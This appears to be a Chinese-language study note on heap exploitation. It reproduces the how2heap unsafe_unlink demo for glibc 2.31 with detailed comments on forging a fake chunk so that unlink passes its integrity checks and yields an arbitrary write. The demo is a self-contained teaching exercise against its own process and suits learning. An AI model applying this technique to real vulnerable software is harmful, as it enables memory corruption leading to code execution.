


---
tags:
  - 2026/11/11
  - pwn
  - heap
---
###### uint64_t
###### unlink_chunk 源码
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>


/*
# uint64_t 是 <stdint.h> 里的无符号 64 位整数，固定 8 字节
因为 64 位计算机中 chunk 的 size、fd、bk 字段都是 8 字节，使用 uint64_t* 指针
去指内存，可以按每 8 字节的大小读写 chunk 内存，方便直接以 "字段" 为单位读写字段（
把这块内存当成一个 8 字节数组来使用）

# 这里的 chunk0_ptr 必须是全局变量
因为攻击需要一个地点和内容已知的指针，全局变量在数据段（.bss / .data），变量加载后
其地址就确定了，可以精确计算（相比于 PIE，其基地址固定）。而且后面要用这个指针做任意
写，此指针必须长期存活、可全局访问
而局部变量地址在栈上，栈地址受 ASLR 和调用深度影响，且不可长期存活
*/
uint64_t *chunk0_ptr;


int main()
{
	setbuf(stdout, NULL);    // 关输出缓冲区

	// 欢迎来到 unsafe unlink 2.0!
	printf("Welcome to unsafe unlink 2.0!\n");
	// 已在 Ubuntu 20.04 64位系统上测试。
	printf("Tested in Ubuntu 20.04 64bit.\n");
	// 当你拥有一个指向可执行 unlink 操作区域的已知位置指针时，可以使用此技术。
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	// 最常见的场景是一个存在溢出漏洞的缓冲区，且该缓冲区关联有一个全局指针。
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");


	/*
	0x420 是一个足够大的数，使 chunk 既不进 tcache(最大0x410)，也不进 fastbin(
	最大0x80)。因此在 free 后，此 chunk 将会走 smallbin/unsorted bin 这些正常
	路径，才会触发 chunk 的 unlink(合并)
	*/
	int malloc_size = 0x420; //we want to be big enough not to use tcache or fastbin

	/*
	header_size 被后面的
		uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	使用。uint64_t 长度为 8 字节，而 chunk header 的大小为 16 字节，因此这里使
	header_size 为 2，方便使用 mem(用户数据段地址) - header_size(header大小)
	计算 chunk header 的起始地址
	*/
	int header_size = 2;


	// 本练习的目标是利用 free 函数来破坏全局指针 chunk0_ptr，从而实现任意内存写入
	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");


	/* 两次 malloc(0x420) ，获取两个 0x420+0x10 大小的 chunk */
	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1


	// 全局指针 chunk0_ptr 位于地址 {%p &chunk0_ptr}，当前指向 {%p chunk0_ptr}
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	// 我们将要破坏的目标 chunk 位于地址 {%p chunk1_ptr}
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
	// 我们在 chunk0 内部构造了一个伪造的 chunk（fake chunk）。
	printf("We create a fake chunk inside chunk0.\n");
	// 我们设置了伪造 chunk 的大小，以便绕过在此处引入的检查机制：https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f
	printf("We setup the size of our fake chunk so that we can bypass the check introduced in https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f\n");


	/*****************************************
	* 在 chunk0 的 user_data 中构建 fack chunk *
	*****************************************/

	/*
	回忆一下 `1. fastbin_dup.c` ，一个正在使用中的 chunk 的结构为：
		+---------------------------------+  <- chunk
		|           prev_size             |
		+---------------------------------+
		|  Size of chunk, in bytes  |A|M|P|
		+---------------------------------+  <- mem
		|  User data ...                  |
		.                                 .
		.                                 .
		+---------------------------------+
		| Next chunk ...                  |  <- 下一个 chunk

	C语言的数组非常简陋，a[i] 本质就是 *(a + i) ，数组头地址加上一个偏移，
	下标是负数完全合法，只要指向有效内存。
	
	malloc 返回的是用户数据段指针（上面 mem，指向 User_data 段起始），即
	chunk0_ptr(或者说 chunk0_ptr[0] ) 指向 chunk0 mem ，我们在 chunk0
	user_data 起始构建伪造的 chunk（fake chunk） 。所以:

		chunk0_ptr[0]  指向 chunk0 mem       和 fack_chunk prev_size
		chunk0_ptr[1]  指向 chunk0 mem+8字节  和 fack_chunk size
		chunk0_ptr[-1] 指向 chunk0 size
		chunk0_ptr[2]  指向 chunk0 mem+16字节 和 fack_chunk fk
		chunk0_ptr[3]  指向 chunk0 mem+24字节 和 fack_chunk bk

		        chunk0
		+----------+----+-+-+-+
		|prev_size |size|A|M|P|             fack_chunk
		+----------+----+-+-+-+  ->  +------------+------+-+-+-+
		|  User data ...      |  ->  | prev_size  | size |A|M|P|
		.                     .  ->  +------------+------+-+-+-+ <- fack mem
		.                     .      | fd         | bk         | 
		.                     .      . ...                     .
		.                     .      .                         .
		+---------------------+  ->  +-------------------------+
		| Next chunk ...      |
	
	fack chunk 有 fd 和 bk ，是为了伪装成一个已经 free 的 chunk

	所以下面一行的意思是将 fack chunk 的 size 设置为 chunk0 size - 0x10，
	因为 fack chunk 坐落在 chunk0 user data 段起始，相比于 chunk0 的大小
	减少了一个 header（0x10）的长度，即 fack chunk 的大小(size, 在
	chunk0_ptr[1]) 为 chunk0的大小(chunk0 size, 在chunk0_ptr[-1])减 0x10

	当然，仅 3 比特的标志位 A、M、P 不会受到影响，保持原样（-0x10 不会影响到
	16 进制位的最低位，最低位是 0x1 还是 0x1）
	*/
	chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;


	// 我们将伪造 chunk 的 'next_free_chunk' (fd)（下一个空闲的chunk）指针设置为指向靠近 &chunk0_ptr 的位置，以满足 P->fd->bk = P 的条件。
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");


	/* 伪造 fd
	图像请看上面的 `chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;` 的注释
	将 fack chunk 的 fd 设成 &chunk0_ptr - 24
	*/
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);


	// 我们将伪造 chunk 的 previous_free_chunk' (bk)（上一个空闲的chunk）指针设置为指向靠近 &chunk0_ptr 的位置，以满足 P->bk->fd = P 的条件。
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	// 通过这种设置，我们可以通过以下检查：(P->fd->bk != P || P->bk->fd != P) == False（即检查结果为假，从而通过验证）。
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");


	/* 伪造 bk
	图像请看上面的 `chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;` 的注释
	将 fack chunk 的 bk 设成 &chunk0_ptr - 16
	*/
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);


	// 伪造 chunk 的 fd 指针： {%p  (void*) chunk0_ptr[2]}
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	// 伪造 chunk 的 bk 指针： {%p  (void*) chunk0_ptr[3]}
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	// 我们假设 chunk0 存在溢出漏洞，因此我们可以自由修改 chunk1 的元数据
	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");


	/* chunk1 header
	前面我们可以知道 header_size 为 2
	chunk1_ptr 指向 chunk1 mem ，减去 header 的长度，就得到指向 chunk1 header
	的指针。chunk1_ptr 是 uint64_t 类型的指针，长度为 8 字节，所以这里的
		chunk1_ptr - 2
	实际上减去了 2*sizeof(uint64_t) 即 16 字节，正好到 header 处，计算得到
	header 的地址
	*/
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;


	// 我们缩小了 chunk0 的大小（该大小被保存为 chunk1 中的 previous_size 字段），使得 free 函数认为 chunk0 起始于我们放置伪造 chunk 的位置。
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	// 关键在于，我们的伪造 chunk 必须恰好始于已知指针所指向的位置，并且我们要相应地缩小 chunk 的大小。
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");


	/*
	chunk1_hdr 指向 chunk1 的 header，则 chunk1_hdr[0] 指向 chunk1 prev_size
	这里把 chunk1 prev_size 设为 0x420，告诉 glibc 前面的 chunk 大小为 0x420，
	与前面我们设置的 fack_chunk size 一致
	*/
	chunk1_hdr[0] = malloc_size;


	// 如果我们“正常”释放 chunk0，chunk1.previous_size 应该是 0x430，但现在它的新值是： {%p  (void*)chunk1_hdr[0]}
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x430, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	// 我们将 chunk1 的 previous_in_use 位设置为 False，从而标记我们的伪造 chunk 为空闲状态。
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");


	/* 将 chunk1 的 P 标志位置 0，以在 free 时触发合并
	
	&=  是按位与赋值运算符，相当于对每一位二进制位执行 AND与 操作
	~   按位取反，1 即 0x1，最低位是 1，其它位全是 0，所以 ~1 = 0b...11110
	    除最后一位为 0，其它位均为 1 。用作掩码来清楚最低位
	所以   chunk1_hdr[1] &= ~1
	相当于 chunk1_hdr[1] = chunk1_hdr[1] & ~1
	相当于 chunk1_hdr[1] = chunk1_hdr[1] & 0b...111111110
	
	回忆一下 AND与 操作： 1&1=1, 0&1=0, 1&0=0, 0&0=0
	即，当右边值为 1 时，左边的值原样输出；当右边值为 0 时，输出一定为 0
	
	所以 chunk1_hdr[1] 的最后一位二进制位被置为 0，其他位不变。而 chunk1_hdr[1]
	是 chunk1 的 size 字段，最后一位为 P，这里标志位 P 被置为 0	

		P（PREV_INUSE）：前一个 chunk 是否在使用，1 为使用中，0 空闲

	P 是触发合并的开关，当 P 为 0，glibc 就会认为前一个 chunk 也是 free 的，
	于是 free(chunk1) 时执行向后合并（consolidate backward），进而 unlink
	前一个 chunk。而前一个 chunk 是我们刚刚精心构造的 fack chunk
	*/
	chunk1_hdr[1] &= ~1;


	// 现在，我们释放 chunk1，使得向后合并（consolidate backward）操作会 unlink 我们的伪造 chunk，进而覆盖 chunk0_ptr。
	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	// 你可以在这里找到 unlink_chunk 函数的源码：https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=1ecba1fafc160ca70f81211b23f688df8676e612
	printf("You can find the source of the unlink_chunk function at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=1ecba1fafc160ca70f81211b23f688df8676e612\n\n");


	/*
	free chunk1，因为 chunk 不在 tcache & fastbin，且标志位 PREV_INUSE 为 0，
	触发 unlink，执行向后合并
	*/
	free(chunk1_ptr);
	/*
	我把上面的网址的 html 和截屏放在下面了，请查看下面的网址来查看 unlink_chunk
	函数的源码，在 unlink 时，会检查 (P->fd->bk != P || P->bk->fd != P)，如
	果这个表达式返回 True ，就会调用 malloc_printerr 输出报错信息并终止程序
		if (P->fd->bk != P || P->bk->fd != P)
		    malloc_printerr("corrupted double-linked list");
	当然还会有其它检查（如大小检查）

	为了成功利用，我们需要想办法绕过 (P->fd->bk != P || P->bk->fd != P) 这个
	检查，让其为 False。即，使 P->fd->bk == P 且 P->bk->fd == P
	
	再看一下 amd64 被 free 后的 chunk 里各字段的偏移
		header 0      mem -24:    prev_size
		header +8     mem -8 :    size
		header +16    mem 0  :    fd
		header +24    mem +8 :    bk
	回忆一下我们前面对 fd 和 bk 做了什么
		// chunk0_ptr[2] 是 fake chunk 的 fd
		chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
		// chunk0_ptr[2] = &chunk0_ptr - 24;
		
		// chunk0_ptr[3] 是 fake chunk 的 bk
		chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
		// chunk0_ptr[3] = &chunk0_ptr - 16;

	除了进 tcache 的 chunk ，其它被 free 的 chunk 其 fd 和 bk 都指向 header
	而非 mem 。
	
	这里的 P 指向的是 fake chunk 而非 chunk1。虽然 free 的是 chunk1，但是
	我们 unlink 的是 `chunk1 - prev_size`，即 chunk1 的上一个 chunk（这
	里是我们精心构造的 fake chunk，因为我们前面已经篡改了 chunk1 的 prev_size
	字段）。

	下面来详细解释一下，审查到底是如何绕过的。要绕过审查
		(P->fd->bk != P || P->bk->fd != P)
	使其为 False，我们需要使
		P->fd->bk == P      P 的上一个 chunk 的 bk 指针指向 P
		P->bk->fd == P      P 的下一个 chunk 的 fd 指针指向 P
	均为 True

	P->fd->bk == P
		已知 P 为 fake_chunk_header，而由上面我们列出的有关 fake chunk
		fd、bk 代码可见
		
		P->fd == fake_chunk_header - 24    # P->fd 即 chunk0_ptr[2]
		则 P->fd->b
		== (P->fd)->bk
		== (P->fd) + 24    # bk 为 header+24字节
		== (fake_chunk_header - 24) + 24    # 代入上面 P->fd 的值
		== fake_chunk_header
		== P
		所以，将 fd 篡改为 header-24 时，可以使 P->fd->bk == P 成立

	P->bk->fd == P
		同理，P->bk == fake_chunk_header - 16
		有 P->bk->fd == (P->bk)->fd == (P->bk) + 16    # fd 为 header+16
		== (&fake_chunk_header - 16) + 16 == &fake_chunk_header == P
		所以，将 bk 篡改为 header-16 时，可以使 P->bk->fd == P 成立

	于是我们绕过了审查，这正是我们在上面的代码中精心构造 -24、-16 这两个值的原因。
	这也是上面两条修改 fake chunk fd 和 bk 的代码附近的 printf 提示信系中 "指
	针设置为指向靠近 &chunk0_ptr 的位置 point near to &chunk0_ptr"的含义
	
	
	
	
	知道绕过了审查还不够，让我们再看下面给出第二张图片或 HTML 中第二个网站，看 unlink
	对 chunk 做了什么

		if (chunksize (p) != prev_size (next_chunk (p)))
			// 第一个审查，完整性审查，检查当前 chunk p 的大小与下一个 chunk 的
			// prev_size 是否一致
			malloc_printerr ("");    // 报错退出
		
		// 获取前后指针
		mchunkptr fd = p->fd;
		mchunkptr bk = p->bk;

		if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
			// 上面我们详细讲的审查，验证双向链表的完整性，chunk p 的前一个 chunk
			// 的 bk 是否指向当前 P，后一个 chunk 的 fd 是否也指向 P
			malloc_printerr ("");
		
		// 脱链，将当前 p 从双向链表中脱出来
		fd->bk = bk;    // 使 p 的上一个 chunk 的 bk 指向 p 的下一个 chunk 而非 p
		bk->fd = fd;    // 使 p 的下一个 chunk 的 fd 指向 p 的 fd
		
		if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
			// fd_nextsize/bk_nextsize 的维护逻辑，仅在 chunk 属于 large bin
			// 范围，且挂在 nextsize 链表上时才处理。large bin 特有一条按大小排序
			// 的链表 fd_nextsize/bk_nextsize，因为 large bin 中同一个 bin 里
			// 的 chunk 大小不一样（不像 small bin 里同一个 bin 里的 chunk 大小
			// 相同），为了快速定位合适大小，glibc 额外维护一条按大小排序的链表，）
	
	其中第三个 if 中的处理不会执行，所以我没有列出来。所以这里 unlink 实际上执行了
		mchunkptr fd = p->fd;
		mchunkptr bk = p->bk;
		fd->bk = bk;
		bk->fd = fd;
	将 chunk 脱链。在一般情况下，我们假设 chunk p 的上一个 chunk 为 prev_chunk，
	下一个 chunk 为 next_chunk。则 fd 指向 prev_chunk_header，fd->bk 相当于
	prev_chunk_header + 24； bk 指向 next_chunk_header ， bk->fd 指向
	next_chunk_header + 16
		fd->bk = bk;  相当于  *(prev_chunk_header + 24) = next_chunk_header
		bk->fd = fd;  相当于  *(next_chunk_header + 16) = prev_chunk_header
	注意在赋值语句中，左边的是一个地址，fd->bk 指向地址 *(prev_chunk_header + 24)
	并修改此内存地址的值。在一般情况下，`fd->bk = bk;` 修改的是 prev_chunk 上的 bk
	字段的值，`bk->fd = fd;` 修改的是 next_chunk 上的 fd 字段的值
	
	但在我们精心构筑的 fake_chunk 中，fd 指向 chunk_header - 24，bk 指向
	chunk_header - 16，而不是其他 chunk 中的。所以在这里
		fd->bk = bk; 相当于 *((&chunk_header - 24) + 24) = chunk_header - 16
		bk->fd = fd; 相当于 *((&chunk_header - 16) + 16) = chunk_header - 24
	这两行赋值表达式的左边都指向了 fake_chunk_header（chunk0_ptr），都修改此处的值，
	所以第一个表达式 `fd->bk = bk;` 使 chunk0_ptr = &chunk0_ptr - 16，第二个表达
	式 `bk->fd = fd;` 使 chunk0_ptr = &chunk0_ptr - 24 ， 覆盖了第一个表达式的结果
	
	所以在函数 unlink_chunk 中，chunk0_ptr 处的值被修改为了 &chunk0_ptr - 24


	这里顺便讲一下第三个 if，将其拆成两个条件
		!in_smallbin_range (chunksize_nomask (p))
		我们的 fake chunk size = 0x420，而 smallbin 的范围 < 0x400 ，我们的
		chunk 不在 smallbin 的范围，这一条为 True
	
		p->fd_nextsize != NULL
		我们看一下 fd_nextsize 在 chunk 中的位置
			header 0:      prev_size
			header +8:     size
			header +16:    fd
			header +24:    bk
			header +32:    fd_nextsize
			header +40:    bk_nextsize
		对应到代码，fake chunk 的 fd_nextsize 在 chunk0_ptr[4]，而我们没有对
		这里进行修改。而 malloc 不会清零返回的 chunk，这里的内容是其原始值。
		
		而好在这里我们使用的 chunk 是第一个 malloc 获取的，glibc 第一次拓展堆时使
		用的是 brk/mmap 的新页，而操作系统给的新页是全 0 的。因此我们从未使用过的字
		段 chunk0_ptr[4] 全 0， p->fd_nextsize != NULL 为 False，不会进入 if
		
		而在其他地方，如果使用的是一个被复用了的 chunk，这里很可能是垃圾值，导致我们
		进入 if，进而可能在里面读取到垃圾地址导致段错误崩溃。在实际利用时，记得清零
		fd_nextsize 和 bk_nextsize
	*/


	// 此时，我们可以利用 chunk0_ptr 覆盖其自身，使其指向任意位置。
	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");


	/* 使用被改写的指针实现任意写 */
	/* 定义了一个字符串 victim_string = "Hello!~"，并将其地址放到 chunk0_ptr[3] */
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;


	// chunk0_ptr 现在已指向我们期望的位置，我们利用它来覆盖目标字符串。
	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	// 原始值： {%s victim_string}
	printf("Original value: %s\n",victim_string);    // Original value: Hello!~


	chunk0_ptr[0] = 0x4141414142424242LL;
	/*
	这里有一个很奇怪的地方，明明我们在前面使
		chunk0_ptr[3] = (uint64_t) victim_string;
	但这里却通过修改 chunk0_ptr[0] 而使 victim_string 的值发生了改变。
	
	回看上面 `free(chunk1_ptr);` 处的注释，此时 chunk0_ptr = &chunk0_ptr-24，
	则  chunk0_ptr[3] = *(chunk0_ptr + 3*8) = *((&chunk0_ptr - 24) + 24)
	  = &chunk0_ptr
	chunk0_ptr 为 &chunk0_ptr-24，则 chunk0_ptr[3] 处正好是 &chunk0_ptr，
	修改的是 chunk0_ptr 所处内存地址的值。所以这里对 chunk0_ptr[3] 的赋值实际
	上修改了 &chunk0_ptr 内存地址处的值，即，将 chunk0_ptr 赋值为了
	(uint64_t) victim_string。
	所以后面 chunk0_ptr[0] = *(chunk0_ptr + 0) = *(victim_string + 0)指向
	victim_string， 可以通过上面的 `chunk0_ptr[0] = 0x4141414142424242LL;`
	修改 victim_string 的值。


	还有一点拓展，为什么
		chunk0_ptr[0] = 0x4141414142424242LL;
	修改的是其指向的 victim_string 而不是 chunk0_ptr[0] 地址处的地址呢？
	这是因为 chunk0_ptr[n] 不是一个变量，而是一个表达式。chunk0_ptr[n] 是表达式
	*(chunk0_ptr + n) 的简写，每使用一次，都要使用当前 chunk0_ptr 的值计算一遍
	地址。
	因此 chunk0_ptr[n] 指向什么，取决于当前 chunk0_ptr 指向的地址，chunk0_ptr
	本身是一个指针，通过这个指针指向的地址计算偏移，而不是通过 &chunk0_ptr 来计算。
	
	即 chunk0_ptr[n] 本质上是 *(chunk0_ptr + n) 而不是 *(&chunk0_ptr + n)
	（是通过 chunk0_ptr 指针指向的地址计算偏移（*(chunk0_ptr + n)），而不是
	chunk0_ptr 本身的地址 &chunk0_ptr 计算偏移（*(&chunk0_ptr + n)））
	
	因此
		chunk0_ptr[0] = 0x4141414142424242LL;
	相当于
		*(chunk0_ptr + 0) = 0x4141414142424242LL;
	修改的是 chunk0_ptr 指针指向的地址 +0 处的地址，而不是 chunk0_ptr 自己所在地址
	&chunk0_ptr 加 0 处的地址。
	*/


	// 新值： {%s victim_string}
	printf("New Value: %s\n",victim_string);    // New Value: BBBBAAAA��V�#V


	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}
```
以上出现的两个网站，因为图片有点糊，这里同时提供`curl`下来的网页 html ，使用浏览器打开看更好看：
[第一个网址  需要至少两个chunk来绕过的检查机制](img/unsafe_unlink_c___web_site_1.html)
[第二个网址  unlink_chunk 函数的源码](img/unsafe_unlink_c___web_site_2.html)

第一个网址：需要至少两个chunk来绕过的检查机制

第二个网址：unlink_chunk 函数源码

